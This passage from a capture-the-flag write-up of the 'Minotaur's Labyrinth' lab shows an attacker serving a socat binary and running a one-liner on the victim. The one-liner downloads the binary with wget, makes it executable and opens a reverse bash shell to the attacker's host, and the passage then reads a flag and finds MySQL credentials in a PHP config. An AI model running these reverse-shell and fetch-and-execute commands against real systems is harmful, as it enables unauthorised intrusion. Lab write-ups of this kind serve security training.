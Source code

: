 And I'm `daemon`!

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

daemon@labyrinth:/opt/lampp/htdocs$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
[...]
daemon@labyrinth:/opt/lampp/htdocs$ stty rows 22 columns 121
daemon@labyrinth:/opt/lampp/htdocs$ export TERM=xterm-256color
daemon@labyrinth:/opt/lampp/htdocs$ ^C
daemon@labyrinth:/opt/lampp/htdocs$ 
```

**Flag3:**
```
daemon@labyrinth:/opt/lampp/htdocs$ cat /home/user/flag.txt
fla9{Redacted}
```

# Privilege Escalation

## daemon to root

**/opt/lampp/htdocs/dbConnect.php:**
```php
<?php
    
    $servername = "localhost";
    $db = "labyrinth";
    $usr = "root";
    $pwd = "";
    //$pwd = "{Redacted}";
    try {
        $conn = new PDO("mysql:host=$servername;dbname=$db", $usr, $pwd);
        $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

        
    } catch (PDOException $e) {     
        die();
    }

?>
```

Found MySQL credentials!
